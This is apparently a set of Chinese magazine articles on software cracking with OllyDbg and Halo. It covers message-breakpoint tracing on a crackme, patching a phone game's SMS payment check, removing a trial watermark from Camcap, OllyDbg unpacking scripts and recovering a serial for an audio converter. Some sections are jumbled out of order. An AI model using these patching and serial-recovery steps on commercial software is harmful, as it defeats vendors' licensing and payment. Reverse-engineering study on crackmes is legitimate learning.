我们在注册框里输入任何东西都没有提示，没有按钮，那我们应该怎么办呢？我们从图1可以看到“NOT Registered”这个字符串，我们不妨尝试在 OD 中查找一下，看看有没有什么可用线索。用超级字符串参考查找软件中的所有字符串，寻找没有注册时的提示，有所收获（如图3），而且在这个字符串上面就是“Registered”，看来当我们输入正确的序列号时，这个文本框的提示就会变成 Registered。双击字符串所在的位置，来到反汇编代码窗口（如图4）。

这附近还有很多跳转指令，我们先找到代码块的起始位置，起始代码如下所示。

上面我们只作为一次破解的偶然成功，为什么这么说呢？因为在大多数情况下注册的成功与否是不会有任何提示的。所以下面我们要介绍通用的破解模式。这类软件的运行方式是这样的：每当用户在编辑框输入信息时，就会产生一个键盘消息，系统捕获这个消息，并投递到这个程序用于处理消息的代码进行处理。这样我们就有了对付这类注册软件的方法：键盘消息断点。

重新载入目标程序，并运行，程序界面出现后按 F12。

暂停程序，点击工具栏“W”按钮进入显示窗口界面（如图7）。


图7


图8


图6

我们找到 TEdit 类，点击右键，选择“设置 ClassProc 消息断点”（如图8）。此时会弹出消息断点设置对话框，选择“键盘”（某些情况下选择编辑控件）（如图9）。设置完断点后我们按 F9 运行程序，程序出现后我们在输入框中输入任意字符，这里输入 1 进行测试。输入完毕后程序立刻被中断在了系统领空。下面就要按照前面一节进行跟踪了，直到跟踪到我们的程序领空，就可以进行分析了。


图9

消息跟踪法作为一种杀手锏式的破解方法，在处理任何软件的时候都可以用得到，但其复杂程度以及代码的分析追踪难度要比其他方式复杂。当然，如果你对 OD 的脚本编写很在行的话，可以直接写脚本，利用脚本自动地从系统领空跟踪到程序领空。消息中断法破解软件要求破解者对 Win32 平台比较熟悉。

（文章中涉及到的破解程序已收录在光盘中）

## 软件破解之终极杂技——消息跟踪

沧海浮萍

软件破解的方法多种多样，对于不同语言类型的软件有着不同的破解方式。大多数的方法相信很多朋友已经知道，这里笔者就不再赘述了。对于 VB 这种语言来说，其软件破解的难度相信很多朋友都是心知肚明的。正是因为 VB 语言将大部分功能封装到了 MSVBVM 库中，使得我们在进行代码跟踪的时候，大部分时间都浪费在了库函数中。这里笔者就以一个 VB 程序作为示例，讲解一下消息跟踪法在软件破解中的应用。

Windows 操作平台最为显著的特色就是消息映射机制。无论你对软件还是操作系统进行任何操作，Win32 都会按照消息的模式进行处理。例如，我们单击按下鼠标左键的时候，实质上 Win32 获得的是一个 WM_LBUTTONDOWN；当我们松开左键的时候，Windows 系统又会获得一个 WM_LBUTTONUP 的消息。Windows 获得消息后，再将消息进行分发，分派到消息应该到达的进程进行消息处理。这样我们就有了一个思路：既然 Windows 平台上能够进行的所有操作都需要经过消息处理，那我们跟踪注册按钮上的消息不就可以到达程序处理的位置了吗？答案是肯定的。只不过在进行消息跟踪的时候，会在 Windows 内部花费一定的时间。


图1

一个 VB 的 crackme 运行界面（如图1），软件的基本信息获取就不演示了，但读者一定要按照规范来做。软件没有加壳，我们随便输入一个序列号“1234”，点击“OK”，弹出了错误提示（如图2）。

## 神秘园


图2

既然程序有错误提示，我们按照常规思路可以使用“字符串查找法”进行软件破解。这里读者可以自行尝试，采用这种方法可以在 2 分钟内破解这个软件。这里笔者就不介绍这种方法了，而是采用消息跟踪法。打开 OD，载入我们的目标程序，入口点代码如下所示，标准的 VB5 入口点代码。

```asm
00401178  >  $ 68 58174000    PUSH cracking.00401758
0040117D    E8 EEFFFFFF      CALL <JMP.&MSVBVM50.#100>
00401182    0000             ADD BYTE PTR DS:[EAX],AL
00401184    0000             ADD BYTE PTR DS:[EAX],AL
```

我们按 F9 运行程序，输入任意序列号“1234”，这时候不要点击“OK”。我们按 F12 暂停程序，然后在工具栏点击“W”（打开窗口）（如图3）。此时我们会来到（如图4）的位置。


图3


图4

在这里我们可以找到当前软件上的一些控件以及按钮，如“OK”按钮。知道这个按钮后我们点击右键，选择“设置 ClassProc 消息断点”（如图5），此时会弹出设置界面（如图6）。

完成上面的基本步骤后，下面我们开始设置消息断点。在 Windows 下这么多消息，那我们应该选择哪一个呢？选择的过程中我们一般是通过测试目标程序进行确定的。对于按钮来说，消息一般有 WM_LBUTTONDOWN 以及 WM_LBUTTONUP 两个消息，具体是哪个消息我们可以通过点击按钮来检测。我们在 OK 按钮按下左键不放，发现没有弹出提示；当我们松开左键的时候提示就弹出来了，这就说明我们要选择的消息是 WM_LBUTTONUP，对应的消息值是 202，其他选项保持默认。设置完毕之后，我们按 F9 运行程序，然后慢慢地在 OK 按钮处按下左键，再松开。这时我们会发现程序中断下来了，来到了系统领空（如图7）。


图5


图6


图7

在系统领空里不容易或者说无法正常观察，所以我们必须想办法跳到程序领空中。一般情况下我们不采用单步执行的方法，否则你会浪费很长时间，这里笔者采用的是跟踪的方法。当然在某些情况下可以选择“执行到返回”或者“执行到用户代码”。点击“调试”，选择“设置条件”（如图8）。当程序执行到程序领空的时候，EIP 指令指针会发生变化。可执行程序的代码范围一般默认从 00401000 开始，这里我们就设置 EIP 范围从 00401000 到 00404000。


图8

变化的（如图9）。当 EIP 指令指针从系统领空执行到程序领空，一旦进入 00401000~00404000 范围内，程序就会暂停，我们就可以进行分析了。

设置完毕后，点击“调试”，选择“跟踪步入”（如图10），这时候 OD 就开始进行代码跟踪了。OD 跟踪的时候有时会没有现象，但只要看见左上角的“跟踪”就说明程序正在进行（如图11）。不用很长时间我们就会看到 OD 暂停了，在命令栏下方我们可以看见提示（如图12）。此时程序已经进入了程序领空（如图13）。

```asm
0040339C  8D95 38FFFFFF    LEA EDX,DWORD PTR SS:[EBP-C8]
004033A2  8D4D A8          LEA ECX,DWORD PTR SS:[EBP-58]
004033A5  C785 40FFFFFF ... MOV DWORD PTR SS:[EBP-C0], cracking.00402>; UNICODE "Password correct, hehe, :-)"
004033AF  89BD 38FFFFFF    MOV DWORD PTR SS:[EBP-C8],EDI
004033B5  FFD6             CALL ESI
004033B7  8D95 78FFFFFF    LEA EDX,DWORD PTR SS:[EBP-88]
```


我们看到这里就有正确提示了“Password correct, hehe, :-)”。我们向上回溯，找到跳转的关键位置。这里在进行单步跟踪的时候会看到两处跳转，我们都修改成相反即可实现错误注册。注册成功的界面（如图14）。


```asm
004031F6  8B1D 6C614000   MOV EBX,DWORD PTR DS:[<&MSVBVM50.__vbaStr>]
004031FC  0F8F 2D010000   JG cracking.0040332F  // 第一处
00403202  66:83FE 04      CMP SI,4
00403206  7E 05           JLE SHORT cracking.0040320D
...
0040336A  894D 90         MOV DWORD PTR SS:[EBP-70],ECX
0040336D  8945 88         MOV DWORD PTR SS:[EBP-78],EAX
00403370  0F84 E8000000   JE cracking.0040345E  // 第二处
00403376  8B35 9C614000   MOV ESI,DWORD PTR DS:[<&MSVBVM50.__vbaVa>]
```


下面我们要做的就是单步跟踪了，按 F8 进行单步跟踪，不久就会看到如下所示的代码：

```asm
0040338A  C785 30FFFFFF ... MOV DWORD PTR SS:[EBP-D0], cracking.00402>; UNICODE "Valid"
00403394  89BD 28FFFFFF    MOV DWORD PTR SS:[EBP-D8],EDI
0040339A  FFD6             CALL ESI
; <&MSVBVM50.__vbaVarDup>
```

到这里，我们的一次消息跟踪之旅就完毕了。从理论上说，采用消息跟踪的方法在 Win32 平台下可以破解所有按钮注册类软件。不过对于不同软件，复杂度不同，跟踪所需要的时间以及分析步骤不尽相同。笔者这里只起到抛砖引玉的作用。如果读者发现更好的破解按钮注册软件的方法，希望分享一下相互交流。只有交流，技术才会发展。

（文章中所涉及到的 cracking 已收录在光盘中）

## 菜鸟浅尝 Java 手机程序破解

秋风の原落 & 千朵


今天宝贝千朵问我能找一个叫美少女噩梦的免费版本手机游戏么。既然 MM 要求了，当然要答应下来。晚上去网吧一看，都是正版的 jar 包，都要收费。郁闷了一会儿，就只能自力更生了。

以这款游戏为例，和大家一起来破解 Java。美少女噩梦是一个标准的 Java 程序，屏幕大小 172*208，由申发软件开发的掌机冒险类 RPG 手游。下载免费，收费方式为游戏过程中发送短信购买关卡。由于 Java 程序的通用性和可移植性，目前可以在 Nokia、Sony Ericsson 等多个品牌机、山寨机使用（如图1）。

我们今天就针对它的短信验证来寻找突破。由于小菜我资金有限，就用手头仅有的几个手机来测试，分别为索爱：W830c、K550c、W550c 和 Nokia 7260，均能够运行这款游戏。下面我们一起来破解。


### 第一招：霸王硬上弓——换 SIM 卡

这种方法是最简单的了，操作也最为繁琐。这样的方法对于这类买关卡来说会需要经常拔 SIM 卡，不仅对手机后盖有磨损，还要经常开关机。但是这种方法的优点是绝对不会产生费用，要么成功，要么失败。另外千朵测试索爱有一个关闭无线电的功能，不必拆卸 SIM 即可绕过验证。至于是否能通用，还请有兴趣的读者自行测试！显然，这类方法不是完美的解决方案。

### 第二招：旁敲侧击——改设置

顾名思义，就是更改手机设置来绕过这类验证。打开手机，进入短信设置，找到短信中心号码，记下来备份。然后将短信中心号码改为空号，或者其他号码。这样就阻止短信从手机中发送出去。这种方法的好处就是比前一种更加灵活，缺点还是不能从根本解决。

### 第三招：正面交锋——破解 Java 程序

这种方法就是从源头来破解了。首先，我们需要 Java 平台，可以直接到 www.java.com 下载。然后，我们安装 Halo 和手机顽童。Halo 是一款破解手机游戏的软件。手机顽童是在 PC 上模拟手机环境，可以帮助我们在电脑上进行测试。

首先，进入 Halo，打开我们需要破解的 JAR 文件。然后，点击工具—配置（如图2）。如果不要修改游戏，就把 JAVAMagic 的修改屏幕和键位关掉。然后我们点击 Halo 中的 Class Editor 编辑类（图3）。


由于是短信验证，我们需要找到相应短信发送的函数。我们点击编辑→全文查找。记得把原来 by current class 改成 by total classes（全部搜索）（如图4）。


然后，我们输入发送短信的相关函数 `messageconnection`。底下会出现（如图5）。双击这行，我们跳到代码处（图6）。


这里就要靠经验了。大家可以反复琢磨怎么改。常规的方法是留 `iconst_1`，如果没有 `iconst_1` 可以自己新建一个，或者留 `iconst` 开头的，双击它。把它改成 1 和 `return`（`ireturn` 也可以），其他代码都可以删除（如图7）。


但是对于这款游戏却不行，这样会导致 PC 上的模拟器直接崩溃、白屏、退出。我们下面就对这两个语句分析。

顾名思义，`javax.wireless.messaging.MessageConnection` 这句就是连接发送的函数。`javax.wireless.messaging.TextMessage` 这句就应该是发送短信的内容了。

我们试着 `nop` 掉这两行语句，然后保存方法（如图8）。

`nop` 掉第一句，保存再运行，发现这次没问题。OK，成功了。但是到了关卡处依然会发现还是有提示收费的项目，怎么回事呢？原因就是我们只破解掉了函数，却还没有汉化翻译。我们跳回工程管理器（如图9）。


放到手机预览里运行，发现依然崩溃。这就可能是堆栈不平衡或者其他问题造成的。返回刚才的操作，我们直接修改提示信息就可以了。然后编译、压缩为 jar，图10就可以传到手机玩了。


经过我的测试，目前在以上提到的机型中运行无问题、无错误。这样，这款游戏就简简单单地破解掉了。Halo 的功能非常强大，有兴趣的读者可以跟踪调试。希望大家能有些启发！

（文章中所涉及到的工具已收录在光盘中）

## 爆破日记——文甩杰作

冷夜 [B.H.S.T]

最近电脑寿命将尽，抓紧做完了备份。一想到高三一年不能碰电脑了，杯具啊……这里祝愿和我一样即将面临高考的兄弟们都能实现自己的梦想。

废话不多说了，今天要破解的软件是 Camcap，偶尔在已好久不用的文件里发现的。作者描述是支持 USB 摄像头及所有 WDM 驱动的摄影机拍照，完美支持 XP SP3 与 Vista，照片存储为图像质量较好、压缩比例较大的 JPG 格式的拍照软件。我们用的是试用版，照片有字幕；正式版本字幕将消失。

## 神秘园

先来拍一下，看看效果，照片加了水印（包括作者信息和拍照时间）。我的爆破方向也由水印确定。大家知道，要获得当前时间，会利用一些函数。我们可以对函数下断，这个程序就用了 GetLocalTime 这个函数。废话不多说，动手吧。

### 一、脱壳

这个软件的壳是 UPX 0.89.6 - 1.02 / 1.05 - 1.24 -> Markus & Laszlo。这个壳很怪，我用 ESP 定律来脱，倒是能正常运行，可是下不了断；而用资源修改工具像 Restorator 修改后壳便消失了，而且还能下函数断点。我是初学，如果老鸟知道这点还请不吝赐教。修改资源后载入 PEiD（如图1），DELPHI 编写的。


图1

### 二、对函数下断查看调用

将修改过的程序载入 OllyICE，右键选择查找—当前模块中的名称（标签），找到 KERNEL32.GetLocalTime 一行，右键选择在每个参考上设置断点（如图2）。


图2

程序设下了三个断点，现在按 F9 运行程序，单击 F8，程序自动停在 0040ADE4 处，部分代码如下：

```asm
0040ADDC  /$ 83C4 E0          add esp,-20
0040ADDF  |. 8D4424 08        lea eax,dword ptr [esp+8]
0040ADE3  |. 50               push eax
0040ADE4  |. E8 B8BDFFFF      call <jmp.&KERNEL32.GetLocalTime>
0040ADE9  |. 66:8B4C24 0E     mov cx,word ptr [esp+E]
0040ADEE  |. 66:8B5424 0A     mov dx,word ptr [esp+A]
0040ADF3  |. 66:8B4424 08     mov ax,word ptr [esp+8]
0040ADF8  |. E8 1BFEFFFF      call 0040AC18
0040ADFD  |. DD5C24 18        fstp qword ptr [esp+18]
0040AE01  |. 9B               wait
```

在 0040ADDC 处（即这段类似函数功能的头部）有两处 CALL 调用。经过我的测试，第一个 CALL 没用处。右击此处，选择转到—CALL 来自 005086D7，进入另一个面的代码：

```asm
005086BF  B9 8E000000      mov ecx,8E
005086C4  BA 0A000000      mov edx,0A
005086C9  E8 12ECF1FF      call 004272E0
005086CE  80BB 90000000 00 cmp byte ptr [ebx+90],0
005086D5  74 31            je short 00508708
005086D7  E8 0027F0FF      call 0040ADDC
005086DC  83C4 F8          add esp,-8
005086DF  DD1C24           fstp qword ptr [esp]
005086E2  9B               wait
005086E3  8D45 CC          lea eax,dword ptr [ebp-34]
005086E6  E8 2933F0FF      call 0040BA14
005086EB  8B45 CC          mov eax,dword ptr [ebp-34]
005086EE  50               push eax
005086EF  8B45 F4          mov eax,dword ptr [ebp-C]
```

005086CE 处进行比较，若未注册则继续，否则在 005086D5 处跳过。知道了原理，我们将 005086D5 处的 JE 改为 JMP，保存一下再运行程序，作者信息还在，但烦人的时间已经没了。

那么作者信息又在哪里呢？在 005086D5 处上下翻翻，发现可以修改的地方，代码如下：


00508744 处有一远跳，既然这样，将 `jl` 改为 `JMP` 试一下，右键复制到可执行文件，保存修改，再运行看看，哈哈，烦人的水印全没了。

### 三、修改“未注册版本”

这个修改很简单，在第一步时可以顺便修改下 MYLANG 资源，修改后保存即可。我稍稍改了下，不过软件好用就成，追求些表面文章也没啥必要。

总结一下，本次破解主要是依靠 GetLocalTime 函数，多少也算个思路吧。至于注册模块我没有分析，但爆破不太容易，呵呵。另外，通过 E 盾，我们可以知道软件是在 C 盘生成一个名为 sita.bmp 的文件，然后加水印并转换为压缩比高的 JPG 文件。本人水平所限，文中难免有错误，若牛人们发现还请指正 QQ 648274142。

> （文章中所涉及到的 CamCap 已收录在光盘中）

## odscript脚本初探

能机器做的事，绝对不用人做，工业时代的到来解放了人的劳动力。脱壳是个重复耐心工作，一次次单步跟踪，一次次跑飞，要是每次都要把之前做的工作重复来过，很是浪费人的时间和精力。物极必反，正是这种情况下诞生了脚本，解放了人的劳动力。今天我就抛砖引玉，和大家谈一下 OD 脚本。

开始肯定是指令了，指令有点多，我给大家打包了，下面只列出今天要用到的。指令手册只要混个脸熟就可以了，到时候查询就可以了。编写脚本工具：记事本。

- var：声明变量
- sto：单步走，相当于 F8
- run：运行，相当于 F9
- cmt：注释
- ret：脚本结束
- MSG：信息框
- findop：从指定地址开始查找指定一个指令
- $RESULT：这是系统保留变量，函数和 ODS 的命令返回都放这里。它还有一个隐含变量 `$RESULT_1`，有的返回是 2 个参数，第二个放这里
- BPHWS：在指定地址设置硬件断点
- BPHWC：删除指定地址处的硬件断点
- BPHWCALL：删除所有硬件断点
- BPRM：在指定地址处设置一个内存读取断点
- BPWM：在指定地址处设置一个内存读写断点
- BPMC：清除内存断点
- BP：在指定地址设断点
- GMI：获得指定地址所在模块的相关信息
- MODULEBASE：模块基址
- CODEBASE：代码段基址

这么多指令大家可能看得眼花缭乱了吧，大家先混个脸熟，到时候根据实际情况查阅就 OK 啦。下面我们就进行实战。以 ASPack 为例编写脚本来脱壳，ASPack 常用的脱壳方法为以下四种：单步走、ESP 定律、内存镜像、关键代码。由于单步走脚本写起来麻烦，所以就以其它三种方法来介绍编写脚本。

行，删除硬件断点。F8 单步走，到达 OEP。OK，此时就可以脱壳了。

## 一、ESP定律脱壳

ESP 定律我相信大家都很熟悉了，但是为了照顾新手这里再演示一遍（不怕各位拍砖，我已经戴好安全帽了，嘿嘿……坏笑ing）。

ESP 定理脱壳（ESP 在 OD 的寄存器中，我们只要在命令行下 ESP 的硬件访问断点，就会一下来到程序的 OEP 了！）

- 1. 开始就点 F8，注意观察 OD 右上角寄存器中 ESP 有没有变化（变成红色）（这只是一般情况下，更确切地说，我们选择的 ESP 值是关键句之后的第一个 ESP 值）。
  2. 在命令行下：`dd XXXXXXXX`（指在当前代码中的 ESP 地址，或者是 `hr XXXXXXXX`），按回车。
  3. 选中下断的地址，断点→硬件访问→WORD 断点。
  4. 按一下 F9 运行程序，直接来到了跳转处，按下 F8，到达程序 OEP。

- 总结 ESP 定律脱壳过程如下：
  1. 单步一次
  2. 获取 ESP 值
  3. 下硬件断点 `hr 13ffa4`
  4. 运行
  5. 删除断点
  6. 单步 4 次，到达 OEP

OK，按照以上过程，用指令一句一句地翻译：

```text
BPHWCALL // 为了防止之前的断点干扰，删除所有硬件断点
BPMC // 删除内存断点
var k // 声明变量存放esp值
sto
mov k,esp // 将esp值赋给k
BPHWS k, r // 下硬件访问断点
run // 运行
BPHWC k // 删除硬件断点
sto // 单步走
sto
sto
sto // 走到到达oep
cmp eip, 程序oep // 在oep处标注
MSG "已到达oep，可以脱壳了" // 弹出提示框已经到达oep
ret // 脚本结束
```


第一条中说关键语句，你可以把壳看作一个函数调用过程，在函数调用前都要保存现场环境，调用完之后就要恢复现场。`pushad`、`pushfd` 保存寄存器，一般只要过了这个保存寄存器，同时 ESP 变红，此时就是要用到的 ESP 值。

OD 载入加壳程序，弹出（如图1）所示询问是否分析，当然点击否。单步走过第一个 `pushad`，此时看 ESP 值变红，记下此值，在命令行输入 `hr 13ffa4`，回车（如图2），F9 运行。

### 二、内存镜像法脱壳

- 1. 用 OD 打开软件。
  2. 点击 选项→调试选项→异常，把里面的忽略全部勾上。CTRL+F2 重载下程序。
  3. 按 ALT+M，打开内存镜像，找到程序的第一个 `.rsrc`，按 F2 下断点，然后按 SHIFT+F9 运行到断点，接着再按 ALT+M，打开内存镜像，找到程序的第一个 `.rsrc` 上面的 `.CODE`（也就是 00401000 处），按 F2 下断点，然后按 SHIFT+F9（或者是在没异常情况下按 F9），直接到达程序 OEP。

内存断点的原理就是预先要将压缩的区段解压到原位置，然后执行代码段的代码。

打开内存镜像（如图3）所示，在第四个区段上（即 rsrc）运行，在此打开镜像在第一个区段即代码段下断点，F9 运行，即到达 OEP。

```text
add k4s,8
mov k4a,k4s
mov k4s,[k4s]  //第四区段大小
add k4a,4
mov k4a,[k4a]  //第四区段虚拟地址
add k4a,imgbase //第四区段地址
bprm k4a,k4s    //资源段下断点
run
bprm cbase,k1s  //代码段下断点
run
cmt eip,"程序OEP"   //标注oep
MSG "已到达oep，现在可以脱壳了" //加个对话框，提示到达oep
ret
```

### 三、总结内存镜像脱壳过程

- 1. rsrc 内存断点
  2. 运行
  3. text 内存断点
  4. 运行，到达 OEP

```text
BPHWCALL // 为了防止之前的断点干扰，删除所有硬件断点
BPMC // 删除内存断点
var imgbase
var k
var k1s
var k4s
var k4a
var cbase

gmi eip,CODEBASE   //获取代码段地址
mov cbase,$RESULT
gmi eip,MODULEBASE //模块基地址400000
mov imgbase,$RESULT
mov k,imgbase
add k,3c
mov k,[k]
add k,imgbase      //pe头
add k,f8           //第一区段名 即代码段
mov k1s,k
add k1s,8          //地址加8字节的偏移就是区段大小
mov k1s,[k1s]      //第一区段大小
add k,78           //第四区段名 即资源段
mov k4s,k
```

### 四、获取区段地址及大小

PE 文件有几大部分组成（如图4），通过计算 PE 头与第一个区块表之间相差 f8，相邻区块表之间相差 28（16进制）。区块表结构（如图5），大家就不难得出为啥区块名加 8 是区段大小，加 4 是虚拟地址。


## 五、popad脱壳关键代码

1. 开始按 Ctrl+F，输入：`popad`（只适合少数壳，包括 UPX、ASPACK 壳），然后按下 F2，F9 运行到此处。
2. 来到大跳转处，点下 F8，到达 OEP。利用的原理是堆栈平衡，既然有压栈 `pushad` 等保护寄存器，就有出栈 `popad` 等恢复现场。


搜索 `popad`，在搜索到的地方 F2 下断点，单步走 4 次就到达 OEP。

## 六、总结popad脱壳过程

- 1. 搜索 `popad`（指令为 61，也就是搜索 61）
  2. 运行
  3. F2 断点
  4. 4 次单步走到达 OEP

```text
BPHWCALL // 为了防止之前的断点干扰，删除所有硬件断点
BPMC // 删除内存断点
Findop eip, #61# // 从入口开始查找61，也就是"popad"
bp $RESULT // f2下断点
run // 运行
sto // 单步
sto
sto
sto
cmt eip, "到达OEP" // 标注oep
MSG "已到达oep，现在可以脱壳了" // 加个对话框，提示到达oep
ret // 结束脚本
```

最后说下脚本的运行：OD 载入加壳程序→右键运行脚本→打开，选择相应脚本运行即可。

OD 脚本精华远不止这些，例如为了调试脚本哪里出错可以运用 `log` 指令记录操作过程，查看选项卡下的记录就可以查看了（如图6）。用以上方法对付压缩壳还是可以的，一些加密壳会有一些反调试，要考虑的东西会很多。相信大家只要多看多练，一定能写出自己的脚本，方便自己，方便他人。具体操作过程大家可以观看随文操作录像。


图6

（文章中所涉及到的 OllyICE、MD5CHECK、录像及代码已收录在光盘中）

## 打造自己的“天天音频转换专家—完美版”

手机里的歌曲太古老了，打算下几首新歌。因为家里电脑没有上网，不能直接下载歌曲，就向同学借了一个 MP3 播放器，里面有很多新歌都是 WMA 格式的。可是下到手机里才发现我的手机很古老，只支持 MP3 格式的音乐，于是就用天天音频转换专家——贵宾版（以下简称“天天”）来转换格式。可是这款软件不注册只能转化四种格式，并且关闭软件时还弹出网页。又因为没有联网不方便下载破解补丁，所以我打算破解掉这款软件。

"http://www.httpoo.com"，双击来到这个地址：


### 一、禁止弹出网页

首先用 PEiD 打开天天（如图1），发现程序是 VB6 编写的，没有加壳。

打开 OllyDBG 1.10，载入天天，在“CPU 主线程”中右键→超级字符串参考→2 查找 UNICODE，发现了那个网页。


图1

选中按 F2 添加一个断点，按 F9 运行程序，遇到注册框，单击试用，显示出主窗口，再关闭它，发现 OD 已经停在了这个断点：

```text
00413693   .  BA 8C524000    MOV EDX,tt.0040528C
; http://www.httpoo.com
```

一直按 F8 到：

```text
0041359F   .  E8 481AFFFF    CALL tt.00404FEC
```

再按 F8，发现网页已经被打开，回过头，把这一句 NOP 掉（如图2），右键→二进制→用 NOP 填充，再右键→复制到可执行文件→所有修改→全部复制，出现一个窗口再右键→保存文件 tt1.exe。


双击运行刚生成的 tt1.exe，打开再关闭，发现已经没有网页弹出了。哈哈，搞定！

### 二、寻找注册码

将原来的 tt.exe 删掉，再将 tt1.exe 改名为 tt.exe。

双击运行 tt.exe，随便输入一个用户名和注册码，单击注册，发现也出现了主窗口，只是未注册。但是在天天的主目录中发现了 tt.ini，打开发现刚才输入的用户名和注册码都保存在这里。那么软件可能是运行时就打开 tt.ini 查看原来输入的注册码，如果注册码不正确，则出现注册窗口；注册信息写完之后，再把信息写到 tt.ini 中；如果注册码正确，直接就显示主窗口。如果是这样，程序要读取 tt.ini 文件，那么查找这个字符串应该可以找到。分析到这里，下面开始操作。

用 OllyDBG 载入 tt.exe，查找 UNICODE，发现两处 “\\tt.ini”（如图3），双击第一处，将其设为断点。

```text
0041243A   .  68 50514000    PUSH tt.00405150
; \\tt.ini
```


F9 运行，发现注册窗口出现了。输入了注册信息点击注册，发现程序到了断点，说明这个位置是把信息保存到 tt.ini 中。而我们需要在读取它之后分析注册信息时的位置，所以查找 UNICODE，打开另一处 “tt.ini”，将其设为断点。

```text
00420310   .  68 50514000    PUSH tt.00405150
; \\tt.ini
```

按 F9 运行，程序到了断点。这时候，我们把文件 tt.ini 中的 user 值设为 aaa，pass 值设为 bbb（如图4），回到 OD，连按 F8，分别路过到了这两个地址：

```text
0042039C   .  8D5E 3C       LEA EBX,DWORD PTR DS:[ESI+3C]
00420407   .  8D4E 40       LEA ECX,DWORD PTR DS:[ESI+40]
```


并且看到 FPU 中已经成功读取了 user 和 pass（如图5），说明刚才的猜想没有错误。再一路按 F8：

```text
0042042A   .  51             PUSH ECX
0042042B   .  52             PUSH EDX
0042042C   .  68 9C514000    PUSH tt.0040519C
; ice_ttaduio
00420431   .  56             PUSH ESI
00420432   .  FF90 0C070000  CALL DWORD PTR DS:[EAX+70C]
00420438   .  8B45 E8        MOV EAX,DWORD PTR SS:[EBP-18]
0042043B   .  8B4E 40        MOV ECX,DWORD PTR DS:[ESI+40]
0042043E   .  50             PUSH EAX
0042043F   .  51             PUSH ECX
00420440   .  FF15 B8104000  CALL DWORD PTR DS:[<&MSVBVM60.__vbaStrCmp>]
00420446   .  85C0           TEST EAX,EAX
00420448   .  0F85 D1000000  JNZ tt.0042051F
0042044E   .  A1 10104200    MOV EAX,DWORD PTR DS:[421010]
00420453   .  85C0           TEST EAX,EAX
```


图6


图7


图5


图8

当运行到了 0042043E，发现寄存器（FPU）中有一个字符串 034，看样子很像注册码（如图6）。单独打开一个天天试一试，在用户名中输入 “aaa”，注册码中输入 “034”（没有引号）（如图7），单击注册，成功了！（如图8）

好了，软件已经破解完毕，现在已经不受任何限制了。

## 初脱最强壳

有跑逆向的同学，对“名声大噪”的甲壳2应该不会陌生。按作者的说明，甲壳2是一种全新的保护壳，保护强度前所未有，自封世界最强。搜了一下，居然连百度百科也收录了这个词条，可见作者宣传的苦心了。那么今天我们要开刀的，就是这只“世界最强壳”。

OD 载入甲壳2的主程序，停在这里：

```asm
00401500 >/$ 55            push ebp
00401501 |. 8BEC           mov ebp, esp
00401503 |. 53             push ebx
00401504 |. 56             push esi
00401505 |. 57             push edi
00401506 |. BF 04304000    mov edi, ...
```

```asm
0040150B | 6A 00                | push 0
hModule = NULL
0040150D | 893D 28304000        | mov dword ptr [403028], edi
00401513 | FF15 18204000        | call dword ptr [<&KERNEL32.GetModuleHandleW>]
00401519 | 68 80204000          | push 00402080 ; ResourceType = "DLL"
0040151E | 6A 65                | push 65 ; ResourceName = 65
00401520 | 6A 00                | push 0 ; hModule = NULL
00401522 | FF15 10204000        | call dword ptr [<&KERNEL32.FindResourceA>]
00401528 | 8BF0                 | mov esi, eax
0040152A | 56                   | push esi ; hResource
0040152B | 6A 00                | push 0 ; hModule = NULL
0040152D | FF15 14204000        | call dword ptr [<&KERNEL32.LoadResource>]
00401533 | 50                   | push eax
00401534 | FF15 20204000        | call dword ptr [<&KERNEL32.LockResource>]
0040153A | 56                   | push esi
0040153B | 6A 00                | push 0
...
```

```asm
hModule = NULL
0040153D | 8BD8                 | mov ebx, eax
0040153F | FF15 1C204000        | call dword ptr [<&KERNEL32.SizeofResource>]
SizeofResource:
...
```

虽然小疯一再勒令我不要贴大段代码，不过这里实在是忍不住了，因为它直接为我们最后脱壳的“失败”埋下伏笔。既然是伏笔，就得留到后话，暂时按下不表。既然不表，我们就不 F8 了，单步脱壳法太腻太烦（虽然这个壳，只要会 F8 就会脱），这次我们整内存断点。Alt+M，呼出程序内存窗口，对着 `.rsrc` 段下写入断点，F9，到这里：

```asm
003D460D   C600 00              mov byte ptr [eax],0    ; 内存块清0
003D4610   EB E4                jmp short 003D45F6
003D4612   C745 CC 00000000     mov dword ptr [ebp-34],0
003D4619   EB 09                jmp short 003D4624
...
```

神马意思呢？一般的壳，会给受保护的 PE 文件加一个额外的区段，姑且叫壳区段。壳区段有个最基本也是必须完成的工作，就是解压或者解密原来 PE 的段（具体是解压还是解密，得看是压缩壳还是加密壳），所以就会对原来段所在的内存空间进行写入操作。这里断下来的，正是壳区段对原区段的解密操作。

由于 003XXXXX 是申请的内存地址，不保证在你机器上的地址与我写的一样，代码相同就行了。删除内存断点。003D4610 处的 `jmp` 将跳回循环继续清 0，所以直接在 003D4612 上 F4，下面开始循环解密区段：

```asm
003D461B   8B45 CC              mov eax,dword ptr [ebp-34] ; 累加计数器
003D461E   83C0 01              add eax,1
003D4621   8945 CC              mov dword ptr [ebp-34],eax
003D4624   8B45 CC              mov eax,dword ptr [ebp-34]
...
```

## 神秘园

```asm
003D4627    3B45 FC        cmp eax, dword ptr [ebp-4]
003D462A    73 12          jnb short 003D463E
```

```asm
003D3DFC    E9 75FFFFFF    jmp 003D3C76
003D3E01    5F             pop edi
003D3E02    5E             pop esi
003D3E03    5B             pop ebx
003D3E04    8BE5           mov esp, ebp
003D3E06    5D             pop ebp
003D3E07    C2 0400        retn 4
```

这里 eax 是从 0 开始自增的，通过一个局部变量传递一下，最后比较。003D4624 的 `mov eax, dword ptr [ebp-34]` 完全可以化简，是没有必要的花指令。毫无疑问，这样做唯一的目的，就是用迂回的花指令晃晕追踪者的眼睛。不过，好像没什么实际效果，花指令量太少，一眼就可以看出来了。

接下来是解码的核心：

```asm
003D462C    8B45 DC        mov eax, dword ptr [ebp-24]
003D462F    0345 CC        add eax, dword ptr [ebp-34]
003D4632    8B4D F0        mov ecx, dword ptr [ebp-10]
003D4635    034D CC        add ecx, dword ptr [ebp-34]
003D4638    8A11           mov dl, byte ptr [ecx]
003D463A    8810           mov byte ptr [eax], dl
003D463C    EB DD          jmp short 003D461B
003D463E    E9 2FFFFFFF    jmp 003D4572
```

这里负责折腾 IAT，即输入表。一般加密壳都会对输入表进行处理，在运行的时候再负责填充还原（有时候会偷点 API，防脱）。下面也有两个 jmp，第一个 jmp 是取下一个 API 地址，第二个 jmp 是开始下一个 dll 的循环，同样由于时间关系，我们不看了，直接对 003D3E07 按 F4 从 retn 处返回——别忘了先删除内存断点。

